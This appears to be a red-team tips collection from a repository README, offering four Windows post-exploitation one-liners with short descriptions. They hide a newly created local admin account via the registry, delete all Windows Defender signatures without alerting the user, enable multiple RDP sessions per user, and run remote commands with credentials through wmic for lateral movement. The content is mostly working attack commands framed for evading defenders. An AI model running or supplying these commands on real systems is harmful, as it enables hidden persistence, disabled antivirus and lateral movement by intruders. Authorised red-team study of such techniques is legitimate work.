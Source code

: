 *Learn from Red Teamers with a collection of Red Teaming Tips. These tips cover a range of tactics, tools, and methodologies to improve your red teaming abilities.*

**Note:** *Nearly all tips are currently from [@Alh4zr3d](https://twitter.com/Alh4zr3d), he posts good Red Team Tips!*

### [🔙](#tool-list)Hiding the local admin account

```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v alh4zr3d /d 0 /f
```

**Description:** *'Creating accounts is risky when evading blue, but when creating a local admin, use some cute sorcery in the registry to hide it.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1612913838999113728)

### [🔙](#tool-list)Cripple windows defender by deleting signatures

```bash
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

**Description:** *'A bit messy, but if Windows Defender is causing you a big headache, rather than disabling it (which alerts the user), you should just neuter it by deleting all the signatures.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1611005101262389250)

### [🔙](#tool-list)Enable multiple RDP sessions per user

```bash
reg add HKLM\System\CurrentControlSet\Control\TerminalServer /v fSingleSessionPerUser /d 0 /f
```

**Description:** *'Sometimes you want to log in to a host via RDP or similar, but your user has an active session. Enable multiple sessions per user.'*

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1609954528425558016)

### [🔙](#tool-list)Sysinternals PsExec.exe local alternative

```bash
wmic.exe /node:10.1.1.1 /user:username /password:pass process call create cmd.exe /c " command "
```

**Description:** *'Are you tired of uploading Sysinternals PsExec.exe when doing lateral movement? Windows has a better alternative preinstalled. Try this instead.'*

**Credit:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)
